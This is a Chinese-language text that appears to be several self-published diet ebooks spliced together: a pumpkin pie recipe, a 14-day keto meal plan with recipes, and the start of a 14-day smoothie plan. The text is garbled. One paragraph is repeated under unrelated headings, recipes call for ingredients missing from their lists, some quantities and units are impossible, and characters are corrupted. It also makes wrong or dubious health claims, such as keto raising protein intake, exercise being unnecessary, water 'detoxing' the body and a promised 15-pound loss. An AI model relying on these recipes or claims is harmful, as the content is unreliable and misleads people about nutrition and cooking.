首先用浸湿的奶酪布制作香料包。收集迷迭香、橙皮和胡椒用于制作香料包。取一个大汤锅，加入剩余食材。等待整个混合物沸腾。然后转小火慢煮约 35 分钟。食用前放冷却。取出香料包，上菜享用吧！

## #5 南瓜派

份量：6 人

总耗时：1 小时（30 分钟准备，30 分钟烹饪）

食材：南瓜泥（15 司）、白糖（3/4 杯）、葡萄干（1 杯）、细粗小麦面粉（1 杯）、肉桂粉（1/2 茶匙）、丁香粉（1/4 茶匙）、肉豆蔻粉（1/8）、冷冻起泡皮（2 片）、鸡蛋（1 个）

方法：

预热烤箱至 350°F。然后，在烤盘上涂油。将南瓜泥放入锅中加热。一旦变浓稠，你可以加入以下食材：白糖、葡萄干、粗小麦面粉、肉桂粉、丁香粉和肉豆蔻粉。将食材充分混合并离火。取一片起泡皮放在预先涂油的烤盘上。然后铺开南瓜混合物，使其覆盖整个表面。将另一片起泡皮盖在混合物上方。然后，打一个鸡蛋并刷在表面，这将确保在烤箱中呈现出迷人的金黄色。烘烤约 30 到 40 分钟。食用前放冷却。享用吧！

## 结

再次感谢你下载这本书！

希望这本书能够帮助你减轻体重并重新建立身体平衡。

下一步是维持你所做出的健康选择，并并在生活中重新发现快乐。

最后，如果你喜欢这本书，我想请你帮个忙，是否愿意在 Amazon 上为这本书留个评价？我将不胜感激！

点击此处在 Amazon 上为这本书留评价！

谢谢并祝你好运！

## # 14 天生酮饮食计划

## ## 初学者生酮饮食食谱

*关于我最喜爱的饮食的额外信息*

*另在 KindleBookSpot.com 获取更多免费和廉价书籍*

## 目录

引言

- 第 1 章：生酮饮食的益处
- 第 2 章：开始生酮饮食计划
- 第 3 章：生酮饮食计划（14 天指南）
- 第 4 章：生酮早餐食谱
- 第 5 章：午餐食谱
- 第 6 章：晚餐食谱
- 第 7 章：生酮饮食零食
- 第 8 章：提示与技巧
- 结语

## 引言

我想感谢你并祝贺你下载了《14 天生酮饮食计划：初学者生酮饮食食谱》一书。这本书将教你如何享受这种改变生活且极其受欢迎的饮食，这种饮食已经帮助世界各地的人减轻了可观的体重。

本书包含了经过证明的步骤和策略，教你：

- 从零开始烹饪一些美味佳肴
- 明确哪些可以吃和不能吃
- 在吃你喜爱的食物的同时减肥
- 享用其他饮食要求你避免的各种食物
- 拥有比平时更多的能量
- 以及更多更多内容！

如果你想减肥，不必限制你对美味食物的摄入。生酮饮食是一种确保体重不反弹的饮食，同时让你享受你通常认为自己不能吃的各种丰富食物。

让这本书引导你完成 14 天生酮饮食计划，并走向不会让你感到饥饿的持续减重。看着体重下降，并且不再反弹。

再次感谢下载这本书，希望你喜欢它！

## 第 1 章：生酮饮食的益处

由于参与者获得的结果，生酮饮食正变得越来越流行。因为它限制了摄入的碳化合物含量，体重会减轻，身体最终消耗的能量大于摄入能量。

市面上有很多饮食是不可持续的，而且坦率地说是不健康的。这些饮食通常会严重限制你摄的食物种类，而这可能导致健康问题。

当你开始生酮饮食时，你将限制碳化合物的摄入，但会增加蛋白质的摄入量。这很棒，因为这意味着你的身体将开始燃烧脂肪，而你不会感到饥饿。

## 易于坚持：

生酮饮食的美之处在于它非常容易坚持。你无疑会在减肥的同时享用许多美味的食物。看起来你可以大量食用培根、奶酪和其他食物，同时看着体重下降，这似乎很奇怪。但事实是，这种饮食有效，而且效果很好，

## 如何在生酮饮食中减脂：

当你开始生酮之旅时，你将消耗不含许多碳化合物的食物。当你摄入碳化合物时，身体会先燃烧它们产生的能量，然后会寻找燃烧你携带的任何脂肪。

由于你不会摄入很多碳水，你的身体会首先燃烧脂肪，这意味着你开始减轻体重。你的多余脂肪会被首先消耗，这让你对自己的外观更有自信。

你也会感到更有活力，并可能改变生活。

## 第 2 章：开始生酮饮食计划

我从自己的经验知道，开始任何饮食都不如你希望的那样容易，但下面有一些提示会让事情变得容易一点。

请不要假设生酮饮食会轻而易举，它可能比你想象的困难，但不要担心，你会做到的。

## 犯错

开始新饮食并不总是容易的，生酮饮食可能很难习惯。这是因为你被要求远离碳化合物和任何糖。你偶尔可能会犯错并摄入比你意识到的更多的糖，但不要因此沮丧。你越参与这个饮食计划，就越习惯食用含有极少或不含碳化合物的食物。

## 了解从何处获取食材

烹饪书中食谱所需的大部分食材在大多数商店都能买到。这种饮食的美妙在于，它不需要你吃任何难以获得的食物。

我知道有些食谱要求使用替代奶（例如豆奶或杏仁奶，偶尔还有椰子奶），但它们通常可以在各种商店找到。如果你当地的超市不卖替代奶，你可能需要去健康食品店，那里可能会有。如果你仍然遇到困难，可以转向互联网，有很多网站以合理的价格出售替代奶。

独自坚持。如果你选择这样做，你应该尽力保持动力，特别是在你发现事情进展不顺时。

## 关键食品/食材

## 肉类和奶酪

在整个生酮饮食计划中，你会被要求吃大量的肉类和奶酪。这是因为肉类是很好的蛋白质来源，但你需要远离加工肉类，因为这些可能含有隐藏的碳水。

好消息是，你每天都可以享受肉类，所以请尽管在你的饮食中加入更多，并享受它吧！

## 鱼

鱼也是极好的蛋白质来源，还含有一些非常健康的油脂。我必须强调，你需要远离裹浆或裹粉的鱼类，因为这些含有大量的碳水。尝试每周吃鱼不要超过三次，因为已知鱼类含有大量的汞。

## 奶制品

我知道完全避开乳制品是很困难的，但有一些很好且非常美味的替代品。我知道这些经过了某种程度的加工，但它们确保了你获得所需的钙以及其他非常有益的营养成分。

### 水果和蔬菜

许多人认为在生酮饮食中不能吃水果和蔬菜。这完全是一个误解，因为你需要消耗这些食物来获取能量。水果和蔬菜含有糖分，由于你不摄入碳水，你需要从其他地方获取能量。确保你只吃低糖的水果和蔬菜，这样你才不会长胖。

## 酱料

面对现实吧，我们都喜欢偶尔给食物添加酱料。虽然这作为生酮饮食的一部分是完全可以的，但你应该确保不要摄入过碳水。好消息是，油基酱料和蛋蛋酱在 във饮食中是被允许的，所以尽管吃吧！

## 第3章：生酮饮食计划（14天指南）

下面将找到一份14天的指南，它应该帮助你决定想吃什么。请注意，制定你自己的饮食计划是完全可以的。你看到的计划仅仅是一个指南，你可能会发现吃其他食物更符合你的口味。

## 第一天

- 早餐：奶油奶士煎饼
- 零食：夏威果
- 午餐：鸡肉培根沙拉
- 零食：奶酪片
- 晚餐：烤三文鱼

## 第二天

- 早餐：草莓肉桂麦片
- 零食：三文鱼配奶油奶士
- 午餐：低碳肉饼
- 零食：剩余肉类
- 晚餐：墨西哥腊肠和椰花汤

## 第三天

- 早餐：培根面包
- 零食：奶酪片
- 午餐：鸡肉汤
- 零食：猪皮和青酱
- 晚餐：奶酪洋葱奎松

## 第四天

- 早餐：柠檬蓝莓马芬
- 零食：猪皮和青酱
- 午餐：香肠披萨
- 零食：夏威果
- 晚餐：瑞典肉丸

## 第五天

- 早餐：菠菠菜欧姆蛋
- 零食：剩余肉类
- 午餐：任何你想吃的
- 零食：夏威果
- 晚餐：墨西哥瓜达拉斯鸡肉

## 第六天

- 早餐：培根、鸡蛋和西兰花
- 零食：夏威果
- 午餐：巧克力蛋白昔
- 零食：奶酪片
- 晚餐：剩余的瑞典肉丸

## 第七天

- 早餐：火腿、火鸡和奶酪煎饼
- 零食：奶酪片
- 午餐：昨晚的剩
- 零食：猪皮和青酱
- 晚餐：奶酪洋葱奎松

## 第八天

- 早餐：奶油奶士煎饼
- 零食：夏威果
- 午餐：鸡肉培根沙拉
- 零食：剩余肉类
- 晚餐：烤三文鱼

## 第九天

- 早餐：草莓肉桂麦片
- 零食：奶酪片
- 午餐：香肠披萨
- 零食：三文鱼配奶油奶士
- 晚餐：巧克力蛋白昔

## 第十天

- 早餐：培根面包
- 零食：剩余肉类
- 午餐：鸡肉汤
- 零食：夏威果
- 晚餐：瑞典肉丸

## 第十一天

- 早餐：柠檬蓝莓马芬
- 零食：奶酪片
- 午餐：低碳肉饼
- 零食：猪皮和青酱
- 晚餐：墨西哥腊肠和椰花汤

## 第十二天

- 早餐：菠菠菜欧姆蛋
- 零食：三文鱼配奶油奶士
- 午餐：任何你想吃的
- 零食：夏威果
- 晚餐：墨西哥瓜达拉斯鸡肉

## 第十三天

- 早餐：培根、鸡蛋和西兰花
- 零食：猪皮和青酱
- 午餐：巧克力蛋白昔
- 零食：奶酪片
- 晚餐：剩余的瑞典肉丸

## 第十四天

- 早餐：火腿、火鸡和奶酪煎饼
- 零食：三文鱼配奶油奶士
- 午餐：昨晚的剩
- 零食：剩余肉类
- 晚餐：奶酪洋葱奎松

如你所示，生酮饮食是非常多样，包含了许多美味的食物。如果你想尝试我建议的某些餐，请参考接下来的几章，你会在那里找到食谱。

如果你愿意，不要害怕修改食谱，但最重要的是要享受它们。

## 第4章：生酮早餐食谱

每天早晨享用美味且营养丰富的早餐。如果你早上时间有点紧迫，在前一天晚上做好早餐会有很大帮助。

## 奶油奶士煎饼

份量：2份

食材：

- 2个鸡蛋
- 1茶匙甜菊糖
- 2-3汤匙奶油
- 半茶匙肉桂
- 1汤匙椰子粉
- 一小块黄油
- 枫糖浆

方法：

将除黄油和枫糖浆以外的所有食材放入碗中，搅拌至混合且光滑。加热平底锅或煎底锅，加入黄油并用中火至大火融化。每面煎至金黄色即可。

离火后盛出，配上枫糖浆食用。

## 草莓肉桂麦片

份量：2碗

食材：

- 530克 椰子片
- 2颗草莓
- 200ml 杏仁奶或豆浆
- 1茶匙粉肉桂

方法：

预热烤箱至350华氏度，并铺好烘烤纸。加入椰子片，烤约2.5分钟，然后稍微搅拌一下椰子片，再烤2.5分钟，或者直到椰子开始变微褐色。

将椰子从烤箱中取出，撒上肉桂。如果你想在椰子中加入糖或代糖，现在是做的最佳时机。

将椰子片盛入2碗中，加入草莓和牛奶，即可上桌。

## 培根面包

份量：3份

食材：

- 1包培根
- 3个鸡蛋
- 100克 奶酪，磨碎

方法：

预热烤箱至200华氏度，将培根对半切开，然后将每片切成两半。现在铺好烤盘，将两片培根并排放在一起，然后在上方放两片，这些片方向相反。如果你想得技术性一点，可以考虑编织培根让它们粘在一起。

将培根烤约20-25分钟，或者直到你满意。烤好后，将培根从烤箱中取出，放在纸巾上让部分油脂流出。放凉。

煎鸡蛋直到符合你的口味，然后将它们放在在一边。

取一层培根放在盘子上，然后放一个煎蛋，顶部撒一些奶酪。在上方加一层培根形成三明治。重复此过程直到你有3个三明治。即可上桌。

## 柠檬蓝莓马芬

份量：8个

食材：

- 114克 蓝莓
- 四分之一茶匙柠檬皮屑
- 四分之一茶匙柠檬精油
- 120克 淡奶油
- 1个鸡蛋
- 100克 杏仁粉
- 一小撮盐
- 四分之一茶匙小苏打
- 2.5包 甜菊
- 28克 融化的黄油

方法：

预热烤箱至350华氏度，并准备马芬具。将面粉和奶油加入碗中搅拌，然后加入鸡蛋再次搅拌，直到一切混合良好。

现在加入甜菊、黄油、柠檬皮屑、柠檬精和小苏打并搅拌。拌入蓝莓，然后将混合物盛入马芬具，每个格填一半。

在烤箱中烤约20分钟，直到马芬呈金黄色。冷却后，即可食用。

# 菠菜蛋姆

制作量：1 个大蛋姆，或两个小蛋姆

食材：

1 个蛋黄
4 个蛋蛋白
一把切碎的菠菜
半个西红柿，切碎
2 汤匙大豆奶或杏仁奶
一小撮香菜
1 汤匙切碎的洋葱
喷雾油

方法：

在锅中喷上喷油，然后翻炒蔬菜。在碗中加入蛋黄、蛋蛋白和牛奶并搅拌打匀。

蔬菜炒好后，将它们出锅放在一旁。再次向锅内喷洒油，然后加入蛋液。

烹饪鸡蛋直到根据你的口味煮熟，然后用勺子将蔬菜放在蛋饼的一侧。将蛋饼的另一侧折在蔬菜上方，非常小心地将蛋姆从锅中取出。享用。

# 培根、鸡蛋西兰花

份量：2 人

食材：

4 个鸡蛋
8 片培根
1 汤匙黄
80 克西兰花，切碎
1 根萝卜，切片
半个洋葱，切碎
100 克奶士
50 克芹菜

方法：

在锅中融化黄油，然后放入培根和蔬菜，煎约 20 分钟，直到蔬菜开始焦化。

将混合物均匀地铺在锅底或煎锅中，切成四份。在每个部分的中间挖空，加入鸡蛋。根据你的口味煮熟，撒上奶士直到奶士融化。享用。

# 火腿火鸡奶士饼

制作量：4-5 个

食材：

4 个鸡蛋
2 茶汤匙甜菊
6 汤匙奶油
1 茶汤匙肉桂
2 汤匙椰子粉
4 片火鸡
200 克瑞士奶士，切碎
4 片火腿
枫糖

方法：

将鸡蛋、甜菊、奶油、肉桂和椰子粉放入碗中，搅拌至均匀。在锅或煎锅中融化黄油，加入洋葱。用中火煎至金黄。

从锅中取出煎饼。

取一片火鸡放在盘子上，在火鸡上加入火腿，重复上述步骤。在每个煎饼顶部撒上奶士，用低火加热直到奶士融化。享用。

# 第 5 章：午餐食谱

这些午餐食谱可以让你工作后或在家里时感到满足。

# 鸡肉培根沙拉

份量：4 人

食材：

- 1 片鸡胸肉，切碎
- 4 汤匙黄油
- 4 片培根
- 1 个西红柿，切碎
- 1 茶匙盐
- 2 茶汤匙柠檬汁
- 1 个蛋黄
- 56 克奶士
- 蛋黄酱

方法：

将调料、盐、大蒜、香菜、橄榄油、柠檬汁放入碗中搅拌。用中火煎黄油，加入鸡肉，直到鸡肉煮熟。

将培根切成条，煎至酥脆并沥油。加入剩余食材，煎几分钟，取出。倒在盘子上，享用。

# 香肠披萨

制作量：1 个

食材：

3 个鸡蛋
200 克马苏里拉奶士
2 茶汤匙意大利调料
1 汤匙橄榄油
1 个头菜花，切碎
2 汤匙黄油
60 克洋葱，切碎
200 克帕玛森奶士
1 茶汤匙莳茴香
500 克香肠
低碳披萨酱

方法：

制作饼底：

预热烤箱至 450 华氏度，刷油烤盘。在锅或煎锅中融化黄油，加入洋葱。用低火煎至头菜花变软。将头菜花转移到碗中冷却。

冷却后，放入食物处理器搅拌至光滑。将香肠切成小块。放入碗中，加入马苏里拉奶士、鸡蛋、帕玛森和香料，搅拌均匀。将混合物均匀地铺在烤盘上。烘烤约 20 分钟，直到饼底边缘变褐色。

制作顶部：

将香肠切成小块。在锅中加入披萨酱，加入香肠。焖。将烤箱调至火烤模式，将香肠混合物和酱料淋在饼底上。均匀撒上奶士。将披萨放回烤箱，直到奶士开始褐色。切片享用。

# 鸡汤

份量：4-6 碗

食材：

650 克鸡肉
半个小洋葱，切碎
1 茶匙盐
半根萝卜，切碎
半根芹菜，切碎
1 瓣大蒜
1/2 茶匙欧芹
1/2 茶匙百香
3 粒
1 叶月桂叶

方法：

预热烤箱至 400 华氏度，将鸡肉放入荷兰锅中。加入盐、洋葱、萝卜和芹菜，烤约 45 分钟。鸡肉好后，从烤箱取出放在炉灶上。加入一些水、大蒜、香料和香草。用低火慢炖，撇去浮沫。火力冷却。

冷却后，过滤汤，享用。

# 低碳肉饼

制作量：1 个大肉饼

食材：

- 800 克牛肉末
- 5 瓣碎大蒜
- 2 汤匙黄油
- 1/2 汤匙香菜
- 1/2 汤匙百香
- 6 克欧芹
- 2 个鸡蛋
- 400 克香肠
- 225 克洋葱
- 120 克绿青椒
- 100 克杏仁粉
- 50 克帕玛森奶士
- 1 茶匙盐
- 1/2 茶匙黑胡椒
- 1/2 茶匙吉明胶
- 2 汤匙烧烤酱
- 2 茶匙芥末
- 60 毫升奶油

方法：

预热烤箱至 350 华氏度，刷油烤盘。将帕玛森奶士和粉放入碗中搅拌。在锅或煎锅中融化黄油，加入洋葱。

将胡椒、盐、大蒜、香菜、橄榄油、柠檬汁和欧芹放入碗中搅拌。软后冷却，放入食物处理器搅拌至细腻。打散鸡蛋，加入烧烤酱、香草、胡椒、盐和奶油。将吉明胶撒在食材上方，静置 5 分钟。将牛肉和香肠放入大碗，加入杏仁粉和鸡蛋，混合。如果混合物变得粘稠，加入一些帕玛森奶士。将食材放入烤盘中，确保每边留出 1 英角的距离。压扁肉饼，烹饪一小时，直到肉饼温度达到 160 华氏度。冷却后享用。

# 巧克力蛋白昔

制作量：1 杯

食材：

28 克（或 16 盎司）杏仁奶或豆奶
114 克（或 4 盎司）奶油
1 汤匙树莓糖
30 克乳蛋白粉

方法：

将食材放入搅拌机或奶昔机中，搅拌至光滑。倒入杯中享用。

# 第 6 章：晚餐食谱

以下晚餐食谱会让你在一天结束时感到非常满足。

# 烤三文鱼

份量：2 人

食材：

- 2 片三文鱼
- 6 汤匙橄榄油
- 1 汤匙柠檬汁
- 1 汤匙欧芹
- 2 瓣大蒜，碎
- 1 茶匙香菜
- 1 茶匙盐
- 1 茶匙黑胡椒

方法：

将胡椒、盐、大蒜、香菜、橄榄油、柠檬汁和欧芹放入碗中搅拌。将三文鱼放入烤盘中，盖上大蒜香菜混合物。

在冰箱中腌制三文鱼约一小时。预热烤箱至 375 华氏度，用铝锡箔包裹三文鱼。淋上腌料，烘烤约 45 分钟，直到用叉子拨三文鱼可以分层。享用。

# 墨西哥香肠西菜花汤

份量：3 人

食材：

- 半个西菜花，切碎
- 半个洋葱，切碎
- 半根中等大小的墨西哥香肠，切碎
- 半根小葱，切碎
- 半根萝卜，切碎
- 少许盐
- 240ml 鸡汤
- 1 汤匙黄油

用 1 汤匙黄油润匀汤碗，加入洋葱，用中大火煎至呈金黄色。加入西菜花，边翻炒边再煮 5 分钟。

将鸡汤加入西菜花中，在碗上盖上盖子。现在加入半部分萝卜和半部分墨西哥肠。烹煮至酥脆（约 10 分钟）。现在将半部分墨西哥肠放入搅拌机中，搅拌至顺滑。用盐调味，然后加入剩下的萝卜和墨西哥肠。即可享用。

# 瑞典肉丸

制作数量：30 个

食材：

- 500 克瘦牛肉
- 1 汤匙黄油
- 1 个煮熟的鸡蛋
- 半茶匙黑胡椒
- 1.5 茶匙肉豆蔻
- 1.5 茶匙肉豆蔻
- 1.5 茶匙盐
- 200 克里科塔奶士
- 114 克瑞士奶士，刨碎

方法：

在锅中加入黄油并加热，然后翻炒洋葱直到透明。烹煮约 10 分钟。现在将瑞士奶士放入搅拌机中，搅拌至像面包屑。

在搅拌碗中加入鸡蛋和里科塔奶士，搅拌。现在加入胡椒、盐和香料，再次混合。加入瑞士奶士和洋葱，再次混合。将牛肉放入碗中混合，直到所有食材粘在一起变得粘稠。将混合物分成 30 个肉丸，揉成球。

将肉丸放入烘烤盘中，在 350 华氏度下烤约 20 分钟，或直到呈褐色。即可享用。

# 瓜达拉哈亚鸡肉

份量：4 人

食材：

- 4 块去骨鸡胸肉，切成 2 cm 厚片
- 3 瓣大蒜末
- 2 汤匙黄油
- 6 个番茄，切碎
- 4 个绿辣椒
- 114 克奶油奶士
- 60ml 鸡肉汤
- 60 克 淡发奶油
- 1 茶匙孜然粉
- 半茶匙辣椒粉
- 1 茶匙盐
- 半茶匙大蒜粉
- 莎莎酱用于装饰
- 酸奶油，用于装饰
- 一小把碎切切达奶士，用于装饰

方法：

在平底锅中融化黄油，然后翻炒大蒜和洋葱直到变软。将鸡肉放入锅中，中火煎至汁水澄清。将温度调至中低，然后加入辣椒和番茄。加入所有香草和香料，盖上锅盖慢炖约 10 分钟。

现在加入奶油和奶油奶士，持续搅拌直到奶士融化。撒上装饰，即可享用。

# 奶士洋葱咸派

制作数量：1 个大派

食材：

- 12 个鸡蛋
- 500 克切达奶士，刨碎
- 2 汤匙黄油
- 480ml 浓奶油
- 1 个洋葱，切碎
- 1 茶匙盐
- 2 茶匙百里香
- 1 茶匙胡椒

方法：

预热烤箱至 350 华氏度，然后向平底锅中加入黄油并用中低火融化。加入洋葱翻炒直到透明，然后冷却。

准备两个派具，加入刨碎奶士，然后加入洋葱，均匀地铺在派具上。

现在将鸡蛋倒入搅拌碗中，加入香料和奶油。搅拌直到混合物变得起泡。将一半混合物倒在奶士上，然后摊平。

将派具放入烤箱中烤约 25 分钟，或直到派定型。冷却后即可享用。

# 第 7 章：生酮饮食计划零食

享受以下零食，作为生酮饮食计划的一部分，在享受美味食物的同时减轻体重。

# 马蹄坚果

份量：1 人

食材：

- 一小把马蹄坚果
- 一小片黄油

方法：

在锅中融化黄油，加入坚果，不断搅拌。待坚果变金黄色后离火。冷却后即可享用。

# 三文鱼与奶油奶士

份量：1 人

食材：

- 150-200 克三文鱼
- 100 克奶油奶士

方法：

将三文鱼切成薄条，放入碗中。加入奶油奶士并搅拌。
即可享用。

# 剩余肉类

份量：1 人

食材：

- 剩余肉类
- 些许你喜欢的香草

方法：

将剩余肉切成薄条，放入碗或容器中。撒上你喜欢的香草，即可享用。

# 奶士片

份量：1 人

- 200 克碎丝奶士

方法：

剪一些无蜡烘焙纸，大小与你的微波炉转盘相同。现在将纸张放在转盘上，堆起一小堆奶士。

将微波炉调至最高功率加热约一半分钟，或直到奶士变得酥脆。冷却后即可享用。

# 猪皮酥与青酱

份量：1 人

- 10-15 片煮过的猪皮酥
- 60 – 80ml 罗勒酱

方法：

将半部分罗勒酱倒入碗底部并摊平。将猪皮酥放在上面，然后将剩下的青酱淋在猪皮酥上。搅拌，即可享用。

# 第 8 章：提示与技巧

这里有一些让你的生酮饮食计划变得轻松的提示和技巧。

## 水

无论你执行什么饮食计划，保持水分充足都是非常重要的。水对身体非常有益，不仅能帮助排毒，还能让你产生饱腹感。每天喝 8  杯水，如果你不喜欢它的味道，可以加入一些低碳水调味剂。

## 运动

很多人在参加饮食计划时会运动，但你不需要。如果你只吃生酮计划允许的食物，你会减轻很多。这意味着你不需要为了减肥而运动的。

# 你的减轻

无论你执行什么饮食计划，保持水分充足都是非常重要的。水对身体非常有益，不仅能帮助排毒，还能让你产生饱腹感。每天喝 8 杯水，如果你不喜欢它的味道，可以加入一些低碳水调味剂。

# 如果你想做

无论你执行什么饮食计划，保持水分充足都是非常重要的。水对身体非常有益，不仅能帮助排毒，还能让你产生饱腹感。每天喝 8 杯水，如果你不喜欢它的味道，可以加入一些低碳水调味剂。

感谢你下载这本书，希望你会喜欢它！

别忘了查看底部我最喜欢的饮食法之一，并学习我如何通过底部的 3 周饮食法快速减掉顽固的多余脂肪的策略。

## 第 1 章：奶昔的好处

如果你添加了“正确”的成分，奶昔可以富含营养，而且非常好喝。我的意思是，通过在奶昔中加入一些健康的成分，你会发现减重比你想象的要容易得多，而且你不会感到饥饿。

事实是，你不需要节食，也不需要服用那些如今流行的、令人怀疑的减肥药就可以减肥。

奶昔充满了许多美味的水果和蔬菜，为你的身体提供保持健康所需的营养素，而且还能让你产生饱腹感。

许多奶昔都富含高纤维成分，正是这些成分遏制了食欲。这是因为这些食物的体积比其他食物大得多，你很快就会发现自己饱了，不想再吃其他任何东西。如果你喝一杯果蔬汁，不仅会感到饱腹，还会减肥，因为它们的脂肪含量非常低。

### 它们味道很好

奶昔的味道通常很好，取决于你添加的成分，它们甚至可以非常美味。好消息是有许多不同的食谱可用，这让你能够照顾你和你家人的口味。你也可以从零开始创建自己的食谱，这样你就能享受非常美味的东西。

你越喜欢奶昔，就越可能坚持喝下去。这意味着如果这款奶昔对你有好处：高纤维、低脂肪、低盐和低糖，那么你更有可能减肥。

## 奶昔计划

奶昔计划是一个你肯定会喜欢的计划。有各种不同的食谱可供选择，你可以你在制作和享受可以带去上班、在家里享或随身携带的奶昔时不会遇到任何问题。

看看这个奶昔计划，并考虑如何将其融入你的生活。在开始这 14 天计划之前，我必须强调，如果你是初次尝试这类，应该从缓慢开始。

请不要犯下直接跳入深水区的错误，即用奶昔完全代替掉你的两餐饭。相反，只需用奶昔代替其中一餐即可，你会发现处理起来相对容易。

我建议你早餐喝奶昔，午餐吃得简单一点，晚餐吃一顿热饭。你可能无法在早餐喝奶昔，并想替换另一餐饭。无论你能做什么，无论出于什么原因，我希望这 14 天奶昔计划对你大获成功，但最重要的是，你享受它。

## 额外的能量！

由于你现在每天会增加更多的水果和蔬菜，你很快就会发现自己精力充沛了很多。对于倾向于跳餐或不吃高营养食物的人来说尤其是如此。你拥有的额外能量将直接来自你摄取的良好食物（或者说是饮料！）。水果蔬菜是能量的极佳来源，不会像某些糖食那样让你感到精力崩溃。

你可能需要一段时间来适应规律摄入，但你会开始感觉和看起来变得更好。

## 第 2 章：开始奶昔计划

### 有用的小士

如果你在执行奶昔计划时遇到困难，这里有一些实用的贴士可能对你有所帮助。

## 犯错

有时，新的饮食计划很难坚持。我们人类会犯错，偶尔会吃一些我们后悔没吃的东西。处理错误的方法不是自责责备，而是要尽快纠正它。

举个例子，假设你不小心在早餐吃了一碗巧克力裹糖味谷物。你可能会因为没有喝昨晚准备的奶昔而感到内疚。别担心，午餐尽情享受奶昔，晚上恢复正常进餐即可。

### 尝试健康饮食

除了早餐喝奶昔（或在在一天中任何方便的时间喝）之外，你可能还想看看你目前的饮食。当你进餐时，请尽量确保它是相当健康的。营养不仅对你的身体有好处，而且如果你坚持健康饮食，你更有可能减肥。

你会发现我在饮食计划中添加了一些用餐建议。如果你偏好其他食物，不必执着于吃这些食物。但请确保你在晚上只摄入有营养的食物，无论你吃的是我建议的还是其他的。

### 寻找你的食材源处

在你决定全力以赴制作一周的奶昔之前，你需要考虑从哪里采购食材。很多人从超市购买水果蔬菜，但我如果可以，会尽量避免这样做。我建议你从当地市场或蔬菜店购买食材。这是因为水果蔬菜不仅更新鲜，可能更便宜。此外，你还支持了本地企业，这永远不是坏事。

### 避免购买奶昔

虽然有些商店买的奶昔非常好吃，但它们通常糖分很高。你可能能找到一些含糖不多的奶昔，但它们通常很贵。通过从零制作奶昔来省钱并减少糖分摄入吧。相信我，它们味道会更好。

### 和朋友一起开始计划

享受 14 天奶昔计划最好的方式之一是带上一个朋友一起进行。你可能还想邀请家人加入。我建议你这么做的原因是，当你和别人一起开始新计划时，你们可以交流心得、互相提供建议，并在困难时刻提供动力。

## 奖励自己

每当我执行奶昔计划，每当我达到特定目标时，我都会奖励自己。每周一次，我会奖励自己一份我自选的，无论它有多不健康，而其他人则是晚上出去狂欢。奖励自己是你保持动力的绝佳方法，这意味着你的奶昔计划更有可能成功。如果你付出了很多努力，你需要一些奖励。

## 关键食物/食材

除了减肥，你可能还想改善健康状况。你可以通过吃各种水果蔬菜来做到这一点。以下是含有某些维生素的水果蔬菜列表：

### 维生素 A
- 水果：西柚、芒果、百香果、番茄
- 蔬菜：西兰花、胡萝卜、韭葱、南瓜、菠菜、甜薯

### 维生素 B1（硫胺）
- 水果：香蕉、葡萄、橙子、菠萝、石榴
- 蔬菜：芦笋、豆角

### 维生素 B2（核黄素）
- 水果：香蕉、葡萄、百香果、石榴
- 蔬菜：羽甘蓝、蘑菇、南瓜、瑞士衣甘

### 维生素 B3（烟酸）
- 水果：油果、椰枣、芒果、油桃、桃子
- 蔬菜：西南瓜、萝卜等、南瓜

### 维生素 B5（泛酸）
- 水果：油果、醋醋果、西柚、石榴、树莓
- 蔬菜：西兰花、羽甘蓝、萝卜等、土豆

### 维生素 B6（吡啶）
- 水果：香蕉、椰枣、葡萄、芒果、菠萝、西瓜
- 蔬菜：西兰花、羽甘蓝、羽、甜薯

### 维生素 B9（叶酸）
- 水果：黑莓、番番果、芒果、百香果、草莓
- 蔬菜：西兰花、羽甘蓝、豆角、萝卜、甜薯

### 维生素 C
- 水果：黑醋栗、猕猴、芒果、橙子、菠萝、草莓
- 蔬菜：西兰花、羽甘蓝、羽、瑞士衣甘

### 维生素 D
- 水果：无
- 蔬菜：蘑菇

### 维生素 E
- 水果：油果、蓝莓、越莓、奇异猴、芒果、石榴、树莓
- 蔬菜：西南瓜、萝卜、南瓜、瑞士衣甘

### 维生素 K
- 水果：黑莓、蓝莓、越莓、葡萄、芒果、石榴、番茄
- 蔬菜：芦笋、西兰花、黄瓜、羽、韭葱、菠菜、瑞士衣甘

# 第 3 章：饮食计划（14 天指南）

下面你将看到我创建的一份 14 天奶昔计划，旨在帮助你减肥。这些奶昔不仅能帮助你减轻高达 15 磅体重，还能为你提供充足的能量。

这是因为水果蔬菜中充满了糖分，可以帮助你提供所需的能量，而不会在糖分代谢后让你感到精疲力竭。由于水果蔬菜提供了缓慢释放的能量，这意味着你在整天中都会更有精力，同时有助于减肥。

请注意，下面的指南仅供参考，你可能会发现需要根据自己的需求和生活方式调整饮食计划。

部分奶昔的食谱可以在下一章找到。

## 第一天

- 早餐：清爽的黄瓜菠萝奶昔
- 加餐：一个水果或一个酸奶
- 午餐：沙拉、意大利面或健康三明治
- 加餐：剩余的奶昔或低卡路里零食
- 晚餐：烤土豆配沙拉

## 第二天

- 早餐：蓝莓桃子奶昔
- 加餐：一个水果或一个酸奶
- 午餐：沙拉、意大利面或健康三明治
- 加餐：剩余的奶昔或低卡路里零食
- 晚餐：低脂千层面

## 第三天

- 早餐：香蕉、芒果和奇异猴奶昔
- 加餐：一个水果或一个酸奶
- 午餐：沙拉、意大利面或健康三明治
- 加餐：剩余的奶昔或低卡路里零食
- 晚餐：奖励自己一份你喜欢的餐

## 第四天

- 早餐：绿薄荷草莓
- 加餐：一个水果或一个酸奶
- 午餐：沙拉、意大利面或健康三明治
- 加餐：剩余的奶昔或低卡路里零食
- 晚餐：鸡肉沙拉或低脂意大利面

## 第五天

- 早餐：奇异果能量
- 加餐：一个水果或一个酸奶
- 午餐：沙拉、意大利面或健康三明治
- 加餐：剩余的奶昔或低卡路里零食
- 晚餐：烤肉和蔬菜

## 第六天

- 早餐：菠萝、梨和西兰花
- 加餐：一个水果或一个酸奶
- 午餐：沙拉、意大利面或健康三明治
- 加餐：剩余的奶昔或低卡路里零食
- 晚餐：烤土豆配沙拉

## 第七天

- 早餐：黄瓜、西瓜和柠檬
- 加餐：一个水果或一个酸奶
- 午餐：沙拉、意大利面或健康三明治
- 加餐：剩余的奶昔或低卡路里零食
- 晚餐：低脂千层面

恭喜你，已经完成了奶昔计划的前七天！为什么不奖励自己一下呢？不非要是与食物相关的奖励，只要能让你感觉好就好！

## 第八天

- 早餐：菠菜、香蕉和麻籽
- 加餐：一个水果或一个酸奶
- 午餐：沙拉、意大利面或健康三明治
- 加餐：剩余的奶昔或低卡路里零食
- 晚餐：鸡肉沙拉或低脂意大利面

## 第九天

- 早餐：生姜和橙子
- 加餐：一个水果或一个酸奶
